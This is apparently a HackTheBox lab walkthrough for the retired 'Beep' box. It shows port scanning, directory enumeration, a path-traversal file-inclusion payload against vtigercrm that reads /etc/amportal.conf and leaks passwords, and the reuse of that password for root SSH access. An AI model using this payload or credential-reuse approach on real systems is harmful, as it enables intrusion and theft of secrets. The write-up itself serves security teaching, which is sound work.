






Hello and welcome to another HackTheBox walkthrough! Today we are tackling the easy Linux box `Beep`. So without further ado, let's get going!

As always, we start with a `nmap` port scan:

```
$ sudo nmap 10.10.10.7 -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 14:02 CEST
Nmap scan report for 10.10.10.7
Host is up (0.020s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.46 seconds
```

That took a bit long 😬! We seem to be looking at a web server with the CentOS Linux-based operating system running the Apache web server. It is listening on both port 80 (plain-text HTTP) and port 443 (secured encrypted HTTPS). There is also SSH remote shell access on port 22, and a bunch of mail services on port 25, 110, 143, 993 and 995. Lastly there is a MySQL database service, but we'll need a username and password to access it.

Let's start with the web server. If we try to send a request over port 80 to the Apache server, it responds with a redirect to the secure version on port 443:

```
$ curl http://10.10.10.7 -I

HTTP/1.1 302 Found
Date: Fri, 09 May 2025 12:12:03 GMT
Server: Apache/2.2.3 (CentOS)
Location: https://10.10.10.7/
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

If we try to request the server through that HTTPS port it also fails:

```
$ curl https://10.10.10.7

curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

`curl` allows us to disable certificate verification with the `-k` option:

```
$ curl https://10.10.10.7 -I -k
HTTP/1.1 200 OK
Date: Fri, 09 May 2025 12:14:22 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Set-Cookie: elastixSession=m7c3g4red0ms4a9mlv18f7iut1; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
```

We see that the server responds with a HTML page. But if we try to load this page in the browser, we get a similar error:



This server is so old it is using a version of SSL to establish the secure connection that is no longer supported by my browser for security reasons. We'll need to configure Firefox to accept it anyway:


Firefox still warns, but at least now we can choose to move forward anyway:



We finally get to see the page, which seems to be a login page for `Elastix`:



If we look back at the `curl` command output we can see that the page is also setting a cookie under the name `elastixSession`. There is not much information on this page, even after checking the page source:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <title>Elastix - Login page</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <!--<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">-->
    <link rel="stylesheet" href="themes/elastixneo/login_styles.css" />
  </head>
  <body>
    <form method="POST">
      <div id="neo-login-box">
        <div id="neo-login-logo">
          
        </div>
        <div class="neo-login-line">
          <div class="neo-login-label">Username:</div>
          <div class="neo-login-inputbox">
            <input
              type="text"
              id="input_user"
              name="input_user"
              class="neo-login-input"
            />
          </div>
        </div>
        <div class="neo-login-line">
          <div class="neo-login-label">Password:</div>
          <div class="neo-login-inputbox">
            <input type="password" name="input_pass" class="neo-login-input" />
          </div>
        </div>
        <div class="neo-login-line">
          <div class="neo-login-label"></div>
          <div class="neo-login-inputbox">
            <input
              type="submit"
              name="submit_login"
              value="Submit"
              class="neo-login-submit"
            />
          </div>
        </div>
        <div class="neo-footernote">
          <a
            href="http://www.elastix.org"
            style="text-decoration: none;"
            target="_blank"
            >Elastix</a
          >
          is licensed under
          <a
            href="http://www.opensource.org/licenses/gpl-license.php"
            style="text-decoration: none;"
            target="_blank"
            >GPL</a
          >
          by
          <a
            href="http://www.palosanto.com"
            style="text-decoration: none;"
            target="_blank"
            >PaloSanto Solutions</a
          >. 2006 - 2025.
        </div>
        <br />
        <script type="text/javascript">
          document.getElementById("input_user").focus();
        </script>
      </div>
    </form>
  </body>
</html>
```

I don't see a version or anything, so instead I'll start running a dirbuster to enumerate all accessible pages or resources:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u https://10.10.10.7 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/]
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
Progress: 29999 / 30000 (100.00%)
===============================================================
Finished
===============================================================
```

I started looking through these pages in search of a version number, but I didn't have much success. Instead let's pay attention to that last result `/vtigercrm`:



If we search Google for `elastix vtigercrm vulnerability` we'll find a result for ExploitDB:



Apparently, visiting the URL `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` would leak the credentials for the Elastix login page. Since we've not been able to identify a version, let's try it out to see if our server is vulnerable:

```
$ curl -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"

# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

...
```

Look at that! We've got a password here: `jEhdIekWmdjE`. We can try it for the Elastix login page with the username `admin`:


It works, and we end up on the admin dashboard:



Nice page and all, but what now? We want shell access! So next I'll try these usernames and passwords for SSH. We'll need the setting `-oKexAlgorithms=+diffie-hellman-group1-sha1` to make the connection despite the old SSH server version.

```
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa asteriskuser@10.10.10.7

The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
asteriskuser@10.10.10.7's password:
Permission denied, please try again.

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.10.10.7
admin@10.10.10.7's password:
Permission denied, please try again.

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]
```

Apparently the root user is re-using the `jEhdIekWmdjE` password! Now we can grab the flags:

```
[root@beep ~]# cat /home/fanis/user.txt
9d59b8f6723cdde467673bdb3a75****

[root@beep ~]# cat /root/root.txt
c93cc0278fed8fbb4f90768c2ac4****
```

That's it!
